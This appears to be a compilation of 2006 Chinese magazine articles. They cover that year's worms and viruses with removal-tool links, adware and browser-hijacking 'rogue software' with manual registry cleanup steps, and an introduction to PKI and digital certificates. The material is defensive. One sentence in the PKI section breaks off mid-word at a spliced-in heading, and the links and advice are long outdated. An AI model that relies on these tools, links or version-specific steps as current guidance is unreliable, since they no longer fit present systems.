如MSN开放了应用程序接口（API），一些病毒通过一些渠道获取到大量的MSN用户账号名后，开始架设“机器人”服务器。由“机器人”自动把这些MSN用户加为好友，发送广告信息。由于此类推广方式是以“机器人”服务器的方式实现，不同于以往自动发广告消息的“QQ、MSN尾巴类病毒”，因此无法使用安全产品进行防护。

#### 2. 流行的计算机病毒及防范

“射人先射马，擒贼先擒王”。在防范病毒的过程中，我们首先需要对本年度的几个重点病毒进行分析，在此基础上了解其他非主流病毒的发展，就可以在防范中做到有的放矢，疏而不漏。

##### 第一，“魔鬼波”

“魔鬼波”通过TCP端口445，利用MS06-040漏洞进行传播，还可通过AOL即时通讯工具自动发送包含恶意链接的消息。在用户不知情的情况下，可能造成services.exe崩溃等现象。蠕虫运行成功后会强势攻击互联网，可造成系统崩溃、网络瘫痪，并通过IRC聊天频道接受黑客的控制，沦为“肉鸡”。

| 病毒名称 | 中文：“魔鬼波”；英文：Worm.IRC.WargBot.a，Worm.IRC.WargBot.b |
| --- | --- |
| 解决办法 | 如果无法上网或上网出现崩溃的现象，可采用以下方法：<br>(1) 用网络防火墙封堵TCP端口445。<br>(2) 在系统的服务管理程序停用“Server”的系统服务。<br>(3) 利用漏洞扫描程序或Windows Update尽快更新MS06-040补丁。 |
| 专杀工具 | 江民下载地址：http://www.jiangmin.com/download/mocbotkiller.exe |

##### 第二，“维金Viking”

*   感染系统文件，造成系统损坏，且手动清除困难。
*   下载恶性木马。盗取魔兽、传奇账号，灰鸽子开后门使系统完全受黑客控制。
*   多路网络传播方式。通过感染文件、局域网共享来传播。
*   强制禁用国内知名反病毒软件。
*   变种多。

可以通过以下方法进行防范。

| 病毒名称 | 中文：维金（又名：威金）；英文：Worm.Viking.m |
| --- | --- |
| 解决办法 | 遇到问题后可以首先采用以下方法进行防范：<br>(1) 升级至最新的病毒库或下载最新的专杀工具。<br>(2) 关闭网络共享或设置复杂的密码。<br>(3) 断开全部网络连接。<br>(4) 进入安全模式。 |
| 专杀工具 | 瑞星下载地址：http://download.rising.com.cn/zsgj/VirusKiller.scr<br>金山毒霸下载：http://tool.duba.net/zhuansha/246.shtml |

##### 第三，“狙击波”

“狙击波”利用微软刚刚公布的严重系统漏洞(MS05-039)进行主动传播。病毒攻击目标系统时，可能导致系统不断重启或崩溃。与震荡波、冲击波症状类似，影响的进程变为“Services.exe”。

| 病毒名称 | 中文：狙击波；英文：Worm.Zotob.a，Worm.Zotob.b，Worm.Zotob.c |
| --- | --- |
| 解决办法 | (1) 安装杀毒软件，开启实时升级。最快升级至最新病毒库。<br>(2) 使用个人网络防火墙关闭系统默认打开的TCP 445端口，切断病毒入侵途径。<br>(3) 利用漏洞扫描软件或Windows Update打上新补丁，尤其是MS05-039补丁。 |
| 专杀工具 | 金山毒霸下载：http://tool.duba.net/zhuansha/239.shtml<br>瑞星下载地址：http://download.rising.com.cn/zsgj/RavWormZotob.exe |

#### 3. 病毒防范综合策略

策略一：选择一款方便而可靠的防毒软件

“工欲善其事，必先利其器”，一个方便而又可靠的防毒软件将是我们做好后面工作的第一步。要对付邮件和网络病毒，在接收过程中对其进行病毒扫描，过滤有害病毒是非常有效的手段。用户可以借杀毒软件中的邮件和网络监视功能来实现，设置了邮件和网络监视功能，可以在接收邮件过程中对病毒进行处理，有效防止邮件和网络病毒的侵入。

策略二：定期升级病毒库，定期扫描系统

厂商会根据最近流行病毒的情况，随时更新病毒代码到病毒库中，如果用户不及时升级，就很难对新病毒进行查杀，这时就不能怪杀毒软件找不到病毒了。一般来说，防病毒软件厂商提供的升级服务是非常周到的，其软件病毒库都处在时时更新状态中，只要网络畅通，升级应该是很方便的。同时，初次使用防毒软件时，扫描整个系统是个好主意。防毒软件可以自定义为定期在后台扫描系统。养成定期扫描的习惯吧，这绝对会让你受益无穷。

策略三：打开实时监控防火墙

策略四：炼一双识别邮件病毒的火眼金睛

当收到邮件时，先看邮件大小，如果发现邮件中无内容，无附件，邮件自身的大小又有几十K或者更大，那么此邮件中极有可能包含有病毒，可直接从电脑中删除，然后再清空废件箱。此外，通过WEB上网收发邮件的朋友可以使用邮箱提供的自动过滤邮件功能，这样不仅能够防止垃圾邮件，还可以过滤一些带病毒邮件。做法是，把陌生的邮件发送人地址列入自动过滤，以后就不会再有相同地址的邮件出现了。

策略五：不使用预览功能。不在“地址簿”中设置联系名单

当今，一些传播与破坏力比较大的病毒，往往都是通过邮件预览时进行感染，并不需要打开邮件。如果使用Outlook收发邮件，建议用户关掉邮箱工具的预览项；或者升级微软的最新补丁，可以预防Outlook接收邮件时进行感染。另外，一旦被病毒感染，病毒会通过邮件地址簿中的联系人来传播。如果要发送邮件，可以进入收件箱，打开对方发来的邮件，利用“回复”功能来发送新邮件，这么多客户与朋友，进行回复当然会有点不方便，可以新建一个文本文件，把客户的邮件地址全都列入其中，可以把重要客户与朋友的名单列进去，万一在病毒爆发的时候，也不会造成不必要的损失。

策略六：分清层次，逐级杀毒

根据网络的实际情况，分客户端、服务器端逐级杀毒，逐级规划。对邮件服务器、文件服务器集中管理，重点监控。计算机病毒与反病毒技术的发展，致使企业不能再依靠单一的防毒体系来保全资源，面对日益复杂的病毒技术的出现，必须出现一种全新的防毒模式，从整体上保证整个网络的安全运行。

#### 4. 流行病毒专杀工具荟萃

通过病毒专杀工具，可以很方便地完成针对某种病毒的查杀。因此，我们列举了当前比较流行的病毒或者依然存在威胁的一些病毒，对其特征进行简要的描述，如下表所示。

总的来说，2006年病毒发展趋势不容乐观，在经济利益的驱使下，病毒危害开始更加“趋利”，隐蔽性更强。在实际防范中，最根本的是要打好最新的安全补丁，充分利用各种杀毒软件，堵住操作系统的漏洞或应用软件的后门。同时，要增强安全意识，在使用网络银行时，首先必须确保登录正确的网址，保管好个人网络银行、游戏账号和密码。这样才能真正做到“有的放矢，疏而不漏”。

| 病毒名称 | 特征 | 专杀工具 |
| :--- | :--- | :--- |
| “SDBot”和“RBot”病毒专杀 | 这是一种集IRC后门、蠕虫功能于一体的，通过网络共享和操作系统漏洞（MS03-026、MS02-061、MS03-007、MS04-011等）进行传播的病毒。首先，病毒会尝试通过弱密码登录目标系统。病毒运行后，会把自身加载到注册表启动项，以使自己下次开机能够继续运行。然后，病毒还会在感染的电脑上打开后门接收攻击者发出的指令，然后连接特定的IRC服务器通知攻击者病毒的存在。症状为：病毒会扫描网段内的机器并猜测共享密码，占用大量网络带宽资源，容易造成局域网阻塞。 | 金山毒霸下载：http://tool.duba.net/zhuansha/240.shtml |
| “灰鸽子”专用检测清除工具 | 可以对流行的多种“灰鸽子”病毒进行检测和清除。能将检测出的“灰鸽子”病毒文件提取出来，存放在工具所在目录的VirusUp子目录中。如果无法检测到病毒，在确实存在明显的病毒症状的前提下，用户可在系统目录中自行查找可疑文件。另外，当工具发现系统中的“灰鸽子”病毒，并且用户进行了清除操作后，应重新启动计算机以确保清除病毒文件。 | 瑞星下载地址：http://download.rising.com.cn/zsgj/GPDetect.exe |
| “(Backdoor.Win32.Sdbot)”病毒专杀 | 专门处理Backdoor.win32.SDBot病毒，该工具必须在安全模式下运行。 | 瑞星下载地址：http://download.rising.com.cn/zsgj/RavSdbot.exe |
| 股票窃密者（TrojanSpy.Stock）病毒专杀 | 查杀股票窃密者（TrojanSpy.Stock）病毒。 | 瑞星下载地址：http://download.rising.com.cn/zsgj/ravstock.exe |
| 敲诈者“Trojan/Agent.bq” | 查杀“敲诈者”病毒，该病毒会在本地磁盘根目录下建立一个备份文件夹，同时搜索本地磁盘上的用户常用格式文档，把搜索到的文件移动到上述备份文件夹中，造成用户常用文档丢失的假象。 | 江民下载地址：http://www.jiangmin.com/download/jmfilerecover.exe |
| “MSN病毒(Worm.msn.funny)”专杀 | 可彻底查杀MSN(Worm.msn.funny)病毒。 | 瑞星下载地址：http://download.rising.com.cn/zsgj/RavFunny.exe |
| LSP修复工具 | 修复注册表键值破坏以后造成的TCP/IP协议不能正常工作问题。适用于用户中了一些广告软件或流氓软件导致的无法上网现象。 | 金山毒霸下载：http://tool.duba.net/zhuansha/248.shtml |
| “恶鹰”专杀（Worm.Beagle） | 发作现象：由于附件的图标和Windows自带计算器图标相似，容易使用户上当。当用户运行病毒后，病毒先运行自身，然后再运行Windows自带计算器，因此具有一定的欺骗性。病毒自带了SMTP引擎，因而可以随意以匿名方式发送邮件。该病毒会在用户机器上建立一个后门，监听6777端口，使攻击者可以在用户机上执行他传来的任意程序。 | 金山毒霸下载：http://tool.duba.net/zhuansha/104.shtml |
| “魔兽木马”病毒专杀 | 这是Windows平台下专门针对于魔兽世界网络游戏的以盗取用户游戏帐号密码信息的木马。病毒运行后将自身伪装成系统正常文件，通过线程注入技术绕过防火墙的监视，利用键盘钩子技术在后台记录用户输入的账号密码信息，通过鼠标钩子获取用户游戏角色和装备信息。主要通过文件捆绑、欺骗运行、可带病毒的邮件附件等方式进行传播。 | 金山毒霸下载：http://tool.duba.net/zhuansha/249.shtml |
| 橙色八月专用提取清除工具 | 8月初，出现了大量针对主流杀毒软件编写的恶性病毒。能造成主流杀毒软件和个人防火墙无法打开，甚至导致杀毒时系统出现“蓝屏”、自动重启、死机等状况。此工具专门针对此类病毒编写。使用之前，建议重新启动计算机，按住F8键选择“安全模式”，进入后使用此工具杀毒。 | 瑞星专杀：http://download.rising.com.cn/zsgj/orangeaug.com |
| “大师”(Worm.Dasher)病毒专杀 | “大师”病毒利用微软公布的MS05-051（MSDTC和COM+服务）漏洞，攻击TCP端口1025。这一攻击利用该漏洞执行病毒代码，造成目标系统缓冲区溢出，运行病毒进行传播。病毒本身同时具有邮件传播、自动下载新病毒等危害，使中毒用户遭受攻击。该专杀工具主要是对Dasher病毒的A、B、C变种，以及其释放的后门程序进行查杀，建议在安全模式下使用运行。 | 金山毒霸下载：http://tool.duba.net/zhuansha/245.shtml |

2006年“流氓软件”大擂台

文 / 风之扬

2006年最热门的一个名词就应该是“流氓软件”了。流氓软件可谓劣迹斑斑：强行侵入用户电脑并且无法卸载；强行弹出广告让人不胜其烦；侵害用户的虚拟财产可谓“无声无息”；偷偷收集用户账号密码更是后患无穷！虽然网络行业协会在2005年点名公布了10款流氓软件，但2006年流氓软件依然飞扬跋扈，不可一世。本专题将从经济利益、技术等多个角度分析“流氓软件”现象，并给出典型“流氓软件”清除办法，使读者达到“举一反三”的目的。

### 一、雾里看花之“流氓软件”现象

流氓软件的范围很广，从技术上讲，恶意广告软件(adware)、间谍软件(spyware)、恶意共享软件(malicious shareware)等都处于合法软件和电脑病毒之间的中间“三无”地带。它们既不属于正规软件，也不属于真正的病毒；它们既有一定的实用价值，也会给用户带来种种干扰，大家就称这种软件为流氓软件。

#### 1. “流氓软件”的种类

流氓软件共同的特征是未经用户许可，强行潜伏到用户电脑中，而且此类程序常常无卸载程序，或者无法干净卸载和删除，强行删除后还会自动生成。总的来看，流氓软件主要包括以下类型：

- **第1种：广告软件**
这种形式应该是最普遍的了，很多用户都深受其害，它主要是指未经用户允许，下载并安装，或者与其他软件捆绑安装，通过弹出式广告或以其他形式进行商业广告宣传的程序。如用户下载安装了某软件后，总会弹出一些莫名其妙的广告窗口，严重干扰了用户正常使用电脑。还有一些软件安装后会在IE浏览器的工具栏位置添加与该软件功能不相干的网页链接图标，一般用户很难清除。

- **第2种：间谍软件**
这种软件可谓“随风潜入夜，润物细无声”，在使用者不知情下，就已经安装在用户电脑上了，用户的隐私数据和重要信息会被那些后门程序捕获。一些间谍软件甚至能够使用户的计算机“死机”，然后推销能够修正该问题的软件。

- **第3种：浏览器劫持**
这是一种通过DLL插件、BHO、Winsock LSP等形式对用户的浏览器进行篡改的恶意程序。常见的浏览器劫持症状有：访问正常网站时被转向到恶意网页；当输入错误的网址时被转到劫持软件制定的网站；输入字符时浏览器速度严重减慢；IE浏览器主页、搜索页等被修改成某网站地址；自动添加网站到“受信任站点”中；收藏夹里自动反复添加恶意网站链接等。

- **第4种：行为记录软件**
主要是指未经用户许可窃取、分析用户隐私数据，记录用户使用电脑、访问网络习惯的软件。例如一些软件会在后台记录用户访问过的网站并加以分析，根据用户访问过的网站判断用户的爱好，然后根据用户的爱好弹出不同的广告程序。

- **第5种：恶意共享软件**
主要是指采用不正当的捆绑或不透明的方式，强制安装在用户的计算机上，并且利用一些病毒常用的技术手段，造成软件很难被卸载；或者采用一些非法手段强制用户购买软件。如用户安装某媒体播放软件时，会自动安装与播放功能毫不相干的软件，如搜索、下载软件而不给出明确提示，卸载该软件时，捆绑安装的软件却不能彻底清除。

- **第6种：搜索引擎劫持**
主要是指未经用户授权，自动修改第三方搜索引擎结果的软件。通常，这类软件程序会在第三方搜索引擎的结果中添加广告，或者加入网站链接获取流量等。

- **第7种：网络钓鱼**
主要是利用欺骗性的电子邮件和伪造的Web站点来进行诈骗活动，受骗者往往会泄露自己的财务数据，如信用卡号、账户号、密码、社保编号等内容。诈骗者通常会将自己伪装成知名银行、在线零售商和信用卡公司等可信的品牌，进行欺诈交易。

- **第8种：ActiveX 控件**
主要是指使无论任何语言产生的软件，在网络环境中能够实现互操作性的一组技术，它建立在Microsoft的组件对象模型基础上。该组件可嵌入在Web页面中以产生动画和其他多媒体效果、生成交互式对象和复杂的应用程序，也可用于为桌面应用程序和软件开发工具增加特殊的功能。

- **第9种：自动拨号软件**
自动拨号软件是指未经用户允许，自动拨叫软件中设定的电话号码的程序。通常这类程序会拨打长途或声讯电话，给用户带来高额的电话费。

通过上面的分析，我们就很容易看到“流氓软件”的真面目，而且这些软件严重妨碍了网民上网的自由选择权、知情权等权利。那么，到底是谁在支持这些流氓软件呢？

#### 2. 流氓软件背后的利益分析

网络经济是眼球经济，虽然注意力、流量并不能决定什么，但不可否认的是，没有注意力和流量做支撑，再好的互联网创意都不会得到风险投资商的关注，更不会长久发展下去。流氓软件正好满足了这种增加注意力、流量的需求，它是最便宜的营销方式之一。企业的目的就是盈利，管理学大师彼得·德鲁克一针见血地指出：即使换了天使当CEO，她也要变着法地去赚钱。从北京市网络行业协会的调查名单上看，流氓软件几乎都是国内著名的互联网公司出品的。梳理流氓软件的循环产业链，我们就发现：幕后“买家”才是真正的得利者。藏有木马的“流氓软件”侵入用户的电脑无非是为了增大其注意力，而这正是网络广告公司或“流量”公司所期盼的，也是他们赖以生存的基础。在网络广告公司或“流量”公司的背后，则是数以千计的各类商家。有迹象表明，病毒、黑客和流氓软件正紧密结合，日益趋于商业化、集团化，并且已经形成了一根完整的产业链条。一些正规的软件、互联网公司加入到这个黑色利益链条中来，在大大加强流氓软件传播能力的同时，也成为了网络威胁的幕后强大后台。

### 二、水中望月之“流氓软件”技术分析

追根溯源，要探明“流氓软件”兴起的原因以及免受其侵扰，首先必须明白它们到底使用了哪些技术。

#### 1. “流氓软件”基础技术：注册表修改

注册表存储着Windows系统的硬件、软件及用户信息，直接控制着Windows的启动、硬件驱动程序的装载以及一些Windows应用程序的运行，从而在整个系统中起着核心作用。通过修改注册表的参数值可以明显提高系统的性能，其修改方法通常有两种途径：第一种方法是利用“regedit”命令进行修改；第二种方法是以编程方式来访问注册表，这也是很多“流氓软件”所使用的方法。
在程序中访问注册表的基本方法是：打开注册表、读写注册表、关闭打开的主键。以VB为例，对注册表进行操作通常有两种途径：一是利用VB自身的函数；二是调用Windows API函数来操作注册表。其中，VB对注册表的操作函数有SaveSetting、GetSetting、GetAllSettings、DeleteSettings等。对于特殊的要求，则可以调用Windows API函数来操作注册表。API的中文意思是应用编程接口，意为系统所提供的位于应用程序和下层网络服务之间的接口，对于TCP/IP协议而言通常使用Sockets和TLI（Transport Layer Interface）作为应用编程接口。为了给用户提供更好的服务，Windows提供了一个32位环境下的应用程序编程接口，其中包括了众多的函数，提供了相当丰富的功能。我们在编制应用程序时，可以调用其中的注册表函数来对注册表进行操作以实现我们需要的功能。Windows API中可用于注册表的函数一共有二十多个，根据其功能不同可以分为：键管理类、值管理类、查询计数类、备份/恢复类、实用类、安全类等。可见，通过各种语言对Windows注册表的操作是十分方便的，尤其是调用Windows API函数来操作注册表。

#### 2. 潘多拉魔盒：开放的API接口

通过开放API接口，可以拓展软件的应用，为用户提供更多优质的服务。为此，QQ和MSN也开放了API接口。例如，出现在MSN门户网站中的聊天机器人“小I”家族，所提供的推荐类包括“小I”聊天、“小I”地图、“小I”天气、“小I”问答和“小I”收视指南等多项自动查询服务。不过，开放API接口也带来了一些负面的“流氓”行为，在很多应用软件中，调用Windows API函数即可轻易操作注册表，“MSN广告机器人”以及说脏话的聊天机器人“小Q”就是其中典型的例子。显然，基于API的应用日后还要进行规范，如果不加规范，更多的祸端将会因API而起。

#### 3. 让“流氓”横行的插件技术

插件是一些软件组件或对象，可以将其插入到网页或其他应用程序中。长期以来，国内网民主要是依赖类似3721上网助手的插件技术实现中文上网。这些插件相互冲突，导致计算机“莫名”死机甚至系统崩溃，大家成为插件隐患的直接受害者。插件原理就是通过统一的程序接口来调用不同的模块，以实现不同功能的调用，用来扩充主程序的功能。其本质是在不修改程序主体的情况下对软件功能进行加强，当插件的接口被公开时，任何公司或个人都可以自己制作插件来解决一些操作上的不便或增加一些功能。从广义的范围来看，插件有以下三种类型：

- **第1种：简单插件**
这种插件一般是文本文件，自由度很低，运行这种插件后，会逐步要求用户进行“选择”、“输入”，最后根据用户的输入来执行一系列事先定义好的操作。总的来看，软件功能比较单一，可扩展性极小。优点是制作方便，即使对程序设计了解不多，也可制作。
- **第2种：使用一种特殊的脚本语言来实现的脚本插件**
这种插件较难写，需要软件开发者自己制作一个程序解释内核，如微软的“宏”就是这种类型。这种方法的优点在于无需使用其他工具来制作插件，软件本身就可以实现，在各种办公自动化软件中使用比较多。
- **第3种：利用已有的程序开发环境来制作插件**
使用这种方法的软件在程序主体中建立了多个自定义的接口，使插件能够自由访问程序中的各种资源。这种插件的优势在于自由度极大，可以无限发挥插件开发者的创意，这种插件是狭义范围的插件，也是真正意义上的插件。而这种插件机制编写相对复杂，对于插件接口之间的协调较困难，插件的开发也需要专业的程序员才能进行。

常用软件添加插件的机制，首先是进行详细的应用分析，确定应该提供哪些资源给插件开发者使用。为了让插件提供的功能能够被用户方便调用，必须将工具条中的标签页组权利提供给插件开发者。

以3721网络实名插件为例，这是利用微软公开的ActiveX标准接口所开发的浏览器插件软件。安装网络实名插件后，Windows系统目录中将增加以下文件：CnsMin.dll、CnsMinEx.dll、CnsMinIO.dll、CnsMinSV.dll、CnsHook.dll。同时，网络实名插件将在Windows注册表中创建[HKEY_LOCAL_MACHINE\Software\3721]组，包含网络实名版本号等相关信息；创建[HKEY_CURRENT_USER\Software\3721]组，包含地址栏下拉列表信息等。更让用户郁闷的是：网络实名插件还会通过注册表中的标准接口，使网络实名插件随Windows启动自动运行。此外，“流氓软件”还有很多攻击技巧，如可以在用户不知情的情况下偷偷启动程序，偷偷篡改用户的浏览器主页等，这些技术的综合运用，给使用电脑带来了很多麻烦，制止并铲除这些“流氓”行为已经成为电脑安全防卫的头等大事。

### 三、典型“流氓软件”特征及清除办法

了解了“流氓软件”的技术原理，下面，我们以网络行业协会公布的一些典型流氓软件为例来介绍，并给出相应的清除方法。

#### 1. “流氓软件”的典型清除方法

在平时上网的过程中，3721上网助手、eBay易趣等网络程序都可自动安装的，而且普及率极广。其中，以3721上网助手最为典型。自从Windows XP SP2推出加强的安全特性后，以前频繁出现的3721安装提示被进行了有效抑制。不过，狡兔有三窟，其推广安装方式除了通过浏览器植入安装、直接下载安装外，又开发了在某些共享软件和免费软件中捆绑的方式。新的捆绑安装方式虽然有安装选项，但对于习惯了“一路回车”安装软件的用户来说，被顺手装入系统的可能性极大！针对目前“流氓软件”的实际情况，可以采用如下步骤来删除：

- **第1步：** 运行自动删除程序，删掉大部分的文件。一些“流氓软件”也自带了自动卸载程序，如果不能找到自动卸载程序，可以利用“控制面板”中的“添加/删除程序”查找。另外，由于3721具有自恢复能力，某些关键文件被删除后，其他模块会试图从3721网站重新下载。所以彻底删除前需要断开网络连接。
- **第2步：** 如果不能删除或者删除不成功，可以重新启动计算机，按F8进入安全模式，删除“流氓”插件的安装目录。启动Windows进入桌面时，系统会报告一些模块找不到的错误，删除注册表中3721的值即可。另外，还可以从DOS启动，删除残存文件。
- **第3步：** 查找关键字，删除注册表键值。在注册表中，找到如下键值：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current Version\Run，然后查找并删除和“流氓软件”名称相关的键值。如果是Windows XP及以上系统，还可以通过点击“开始”菜单，在“运行”中输入MSCONFIG，按需要去除可疑的启动项。需要注意的是，在查找关键字的时候，可以将其与网络广告商等外部因素联系起来，如清理易趣广告时，可以联想到它的广告总代理www.unionsky.cn，在注册表中搜索unionsky，可以达到意想不到的效果。注意：清理前最好备份注册表，以便系统出问题时恢复。

一般情况下，利用上述方法可以清理大部分的“流氓软件”。不过，“术业有专攻”，如果想达到更加彻底的效果，还需要借助专业的清理工具来进行。

#### 2. 网络“警察”：专用“流氓软件”清理工具

根据软件下载的数据排名和网友反馈，下面列举了几种比较典型的“流氓软件”清理工具：

- **第1种：恶意软件清理助手 V2.14（★★★）**
软件下载地址：http://www.tomsoft.com/products。这是最近比较热门的一个“流氓软件”清理工具，软件清理项目包括：恶意软件清理、系统进程清理、启动项目清理、注册表项清理、可疑文件搜索、临时文件清理等。它采用了最新的查杀引擎，可以检测多达近百种恶意软件，尤其是网络行业协会点名的“十大流氓软件”，并能把恶意软件彻底清除。注意，清理时最好在Windows安全模式下进行。
- **第2种：EWIDO（★★★★）**
软件下载地址：http://www.ewido.net/en/download/。这款软件偏重于网络安全防护软件，可以在其它安全软件基础上，作为系统安全的补充。plus版本能实时监测整个系统运行、监测内存、内核自保护、在线升级等。程序可识别并清除63449种不同的黑客程序、木马程序、蠕虫程序等。
- **第3种：Windows流氓软件清理大师 V3.7（★★★）**
软件下载地址：http://www2.skycn.com/soft/25172.html。这是“超级兔子”出品的一款针对“流氓软件”的免费系统维护工具，它能够检测、清理已知的大多数广告软件、工具条和流氓软件。软件的优势在于通过网络对软件进行卸载管理，能够清除多达166种软件。另外，清理时不需要进入DOS，不需要进入安全模式，不需要备份注册表，只要清理后重新启动一次即可卸载干净。缺点是对“流氓软件”与“网络软件”的概念有些模糊，容易混淆。
- **第4种：360安全卫士 v1.75（★★★）**
360安全卫士是一款安全类上网辅助软件，它拥有查杀恶意软件、插件管理、病毒查杀、诊断及修复四大强劲功能，同时还提供弹出插件免疫、清理使用痕迹以及系统还原等特定辅助功能。

除此之外，还有多种其他类型的“流氓软件”清理工具，如Ad-aware、Spy Sweeper、SpyStopper、SpyBlocker、Spybot Search and Destroy以及微软清理工具等，都可以在一定程度上对“流氓软件”起到清理作用。总之，有了上述清理工具和清理方法的完美出击，我们就能辨明“毒草”，从而彻底免除“流氓软件”骚扰。

2006年安全新视角
——PKI技术完全接触

文 / 风之扬

2006年以来，有关网络银行、网上证券、网上申报缴税、网上企业购销、安全移动商务等业务越来越红火。登录“招商银行 (http://www.cmbchina.com/)” 的首页，就可以看到，以网络银行为平台的“电子商务”给我们带来了很大的方便，顾客点击鼠标之后，就可以通过网络交易平台定购自己所需要的产品。我们可能会思索：要使买方和卖方在因特网上顺利地进行交易，交易各方的信心靠什么技术来保证呢？事实上，要想让电子商务活动蓬勃发展起来，首先必须解决的就是安全问题，PKI (Public Key Infrastructure，公开密钥体制) 技术则是解决这个问题的理想模型。

## 一、了解 PKI 的基础知识

现在，登录一个网络银行的站点，可以实现查询、转账、汇款、开户等业务。如果有雅兴的话，还可以通过卓越等电子商务站点给朋友购买一束鲜花。在进行这些网络活动之前，我们来看看PKI技术模型到底能带给我们什么。

### 1. 为什么需要 PKI 技术

经过分析，一个成功的网络交易需要从以下几个方面着手：

- **第一， 机密性**
确保数据能够保持私有或保存为一个秘密的格式，信息的发送和接收通过安全的通道进行，保证通讯双方交换的信息秘密。交易双方在信息交换过程中不会被窃听，非交易方不能得知交易的内容。也就是说，我们希望自己所从事的一切电子商务活动必须处于绝对保密，最直接的就是，我们下的订单、支付的金额应该处于保密的环境中，第三方人员不可以看这些信息。如果电子商务活动的机密性得不到保证，电子商务活动就失去了根本的意义，即使再方便，我们也不会选择这种交易方式。
- **第二， 完整性**
信息的接收方可以验证收到的信息是否完整，是否被人篡改。比如，我签订的合同中，只需要购买一台电脑，而商家却收到了十台电脑的订单，这个交易就存在问题。试想，连交易信息都被篡改了，我们还敢在网上买东西吗？
- **第三， 真实性**
交易方的身份可以有效鉴别、确定，不会有假冒或伪装。试想，在网上，双方之间根本就不能见面，怎么确定双方的身份呢？最直接的就是，如果http://www.abc.com和http://www.abc.com.cn两个页面一模一样，你能断定他们就是一个网站吗？而事实上，这样假冒的情况十分常见。
- **第四， 不可否认性**
信息的发送方不能抵赖曾经发送的信息，不能否认自己的行为。网上炒股是一个很常见的电子商务活动，客户在什么时候买多少股票和卖多少股票的信息十分重要，如果不能确定，那证券公司肯定要倒闭了，客户也会蒙受很大的损失。因此，必须通过相应的技术使双方所确认的行为规范起来。

从目前的技术发展来看，能够满足上述要求的理想模型就是PKI体系。PKI的基础技术包括加密、数字签名、数据完整性机制、数字信封、双重数字签名等。通过PKI体系，数据的保密性可以通过加密算法实现；数据的完整性通过数字签名技术实现；身份鉴别通过数字签名和证书实现；不可否认性通过数字签名和证书实现。上述安全问题就可以迎刃而解。因此，在电子商务活动中，PKI技术是信息安全技术的核心，也是电子商务的关键和基础技术。

当然，在PKI技术的背后，还有一些加密算法，人们在实践中进行了有选择的优化组合。比如，利用公钥加密/私钥解密完成对称算法密钥的交换，利用私钥加密/公钥解密完成身份验证、提供数字签名，而数据块的散列值可以通过消息摘要算法计算得到。初次接触这些技术名词的朋友可能会有些眼花缭乱，实际上，正是这些看似“默默无闻”的技术，才保证了我们在网络交易中从容面对黑客、病毒等网络安全隐患的信心。

### 2. 网络“公安局”：PKI 体系中的 CA 中心

完整的PKI系统必须具有CA（权威认证机构）、数字证书库、密钥备份及恢复系统、证书作废系统、应用接口（API）等基本构成部分。

所谓CA（Certificate Authority）认证中心，它是采用PKI（Public Key Infrastructure）公开密钥基础架构技术，专门提供网络身份认证服务，负责签发和管理数字证书，且具有权威性和公正性的第三方信任机构，它的作用就像我们现实生活中颁发证件的公安局，如护照办理机构。目前国内的CA认证中心主要分为区域性CA认证中心和行业性CA认证中心。CA中心主要包括以下主要组成部分：

- **第一， 用户**
用户使用浏览器访问安全服务器，申请数字证书，之后到登记中心注册，出示有效证件。认证中心为用户发行证书以后，用户根据登记中心发来的邮件到安全服务器上下载自己的数字证书。
- **第二， 服务器**
包括CA服务器、安全服务器、登记中心服务器、提## 二、PKI体系下的数字证书应用

##### 第三，操作员

登记中心操作员使用浏览器访问登记中心服务器，服务器需要对操作员进行身份认证，操作员向服务器出示CA颁发的p12格式的证书，服务器根据配置文件检查操作员的数字证书，如果证书合法，则与对方建立SSL通信。操作员的人数可以根据实际情况而定。CA操作员负责颁发用户的数字证书以及撤销证书。CA操作员的身份特别，是整个系统的核心，必须是最可信的人才能担任。

如今，PKI技术和我们的日常生活正发生着越来越密切的关系。近年来，有关PKI技术的应用越来越多，最典型的有应用在无线通信领域的无线PKI，即WPKI。目前已公布了WPKI草案，其内容涉及WPKI的运作方式、WPKI如何与现行的PKI服务相结合等，它代表了PKI技术发展的一个重要趋势。另外，从网络发展的趋势看，企业和政府机构的通讯安全也是至关重要的问题之一。比如在电子商务中就要防止泄露顾客的敏感信息，要防止交易过程中的欺骗和抵赖行为，要考虑到电子货物的安全传送等。而利用PKI技术可以保证信息的安全性以及抗否认性，就好像在现实法制生活中一样，做到“有法可依、有法必依、执法必严、违法必究”，从而在健全的环境下真正实现安全的电子商务。

#### 3. 网络“身份证”：数字证书

在实际应用中，最直接的加密产品就是数字证书。通过招商银行申请网上支付功能的时候，很多读者朋友已经接触了数字证书，比如登录 http://www.cmbchina.com 申请个人银行专业版的时候，首先需要安装的就是个人银行数字证书。作为一种比较成熟的安全产品，数字证书已经发展到一个较高的技术水平，而且它将在我们将来网络生活中发挥越来越重要的作用。

数字证书称为数字标识（Digital Certificate, Digital ID）。它提供了一种在Internet上身份验证的方式，是用来标志和证明网络通信双方身份的数字信息文件，与司机驾照或日常生活中的身份证相似。数字证书是由一个由权威机构即CA机构，又称为证书授权（CertificateAuthority）中心发行的，人们可以在交往中用它来识别对方的身份。在网上进行电子商务活动时，交易双方需要使用数字证书来表明自己的身份，并使用数字证书来进行有关交易操作。通俗地讲，数字证书就是个人或单位在Internet上的身份证。

为什么需要数字证书呢？由于Internet电子商务系统技术使在网上购物的顾客能够方便轻松地获得商家和企业的信息，但同时也增加了对某些敏感或有价值的数据被滥用的风险。买方和卖方在因特网上进行的一切金融交易运作都是真实可靠的，并且要使顾客、商家和企业等交易各方都具有绝对的信心，因而因特网（Internet）电子商务系统必须保证具有十分可靠的安全保密技术，也就是说，必须保证网络安全的四大要素，即信息传输的保密性、数据交换的完整性、发送信息的不可否认性、交易者身份的确定性。数字证书在网络中的使用模式如图1所示。


##### 1. 数字证书的获得、安装及查看

现在，大部分网络银行都提供了专业数字证书的申请服务。例如，如果要开通招商银行个人银行专业版，则需要到柜台申请专门的数字证书，通过“数字证书+取款密码”的方式，安全性得到了极大的提高，银行甚至未给客户设置单笔和每日支付限额。可见，数字证书将会在银行、证券等领域得到越来越广泛的应用。另外，很多专业的CA中心网站都提供了数字证书的申请服务。对于初次接触数字证书的用户来说，则可以通过免费的数字证书站点来熟悉相关的流程。

目前有几个CA中心提供试用型数字证书，其申请过程在即时网上完成，并立即可以免费使用。下面提供一个比较好的站点，申请地址为 https://testca.netca.net/。此外，天威诚信安全身份认证服务中心（http://www.itrus.com.cn/）也提供了免费的数字证书申请服务。

- **第1步：**
